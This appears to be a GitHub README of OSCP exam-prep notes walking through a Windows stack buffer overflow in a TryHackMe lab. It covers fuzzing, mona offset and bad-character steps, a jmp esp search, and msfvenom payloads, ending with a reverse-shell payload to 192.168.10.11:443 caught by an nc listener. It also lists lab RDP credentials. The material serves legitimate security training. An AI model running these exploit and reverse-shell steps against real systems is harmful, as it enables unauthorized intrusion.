# OSCP_Prep: Buffer Overflow

For OSCP Buffer Overflow preparation, you don't need complicated codes and/or advanced python skills. You just need a simple python code and work your way up. The following steps are to help you in each of the step that you take. These 6 simple steps are just what you need for OCSP Buffer Overflow preparation.

Free TryHackMe Room: https://tryhackme.com/room/bufferoverflowprep

```c++
xfreerdp /u:admin /p:password /cert:ignore /v:192.168.10.10
```

### 01 Fuzzing

```c++
> ./01-fuzz.py
```

Press `Ctrl + C` after the application crushed. Note down the byte number. (Example: Crushed at 2000)

### 02 Finding Offset

```c++
> msf-pattern_create -l 2000

> ./02-offset.py
```

At this point, I'm assuming you have Mona setup. 

```c++
> !mona findmsp -distance 2000
```

Find EIP normal pattern. (Example: EIP contains normal pattern : 0x42987857 (offset 1876))

### 03 Controlling EIP

```c++
> ./03-eip.py
```

You should see `424242` for EIP.

### 04 Finding Bad Characters

Setting up mona working directory:

```c++
> !mona config -set workingfolder c:\mona\%p
```

Generating byte array:

```c++
> !mona bytearray -b "\x00"
```

Running the script:

```c++
> ./04-badchar.py

> !mona compare -f C:\mona\oscp\bytearray.bin -a 0321FF88
```

Generating byte array with bad characters removed. Update the script and run again util you see 'Unmodified' status in mona memory comparison results.

```c++
> !mona bytearray -b "\x00\x0d"

> ./04-badchar.py

> !mona compare -f C:\mona\oscp\bytearray.bin -a 03B2FF88
```

### 05 Finding a Jump Point

```c++
> !mona jmp -r esp -cpb "\x00\x0d"
```

Set the break point by entering the pointer address and pressing `F2`.

```c++
> ./05-pointer.py
```

If the pointer address stop at EIP. You are good to go.

### 06 Popping Calculator

```c++
> msfvenom -p windows/exec CMD="C:\windows\system32\calc.exe" -b '\x00\x0d' -f c

> ./06-calc.py
```

After successfully popping the calculator app, next step is to get a shell.

```c++
> msfvenom -p windows/shell_reverse_tcp LHOST=192.168.10.11 LPORT=443 EXITFUNC=thread -f c -a x86 -b "\x00\x0d"

> nc -lvnp 443

> ./07-exploit.py
```



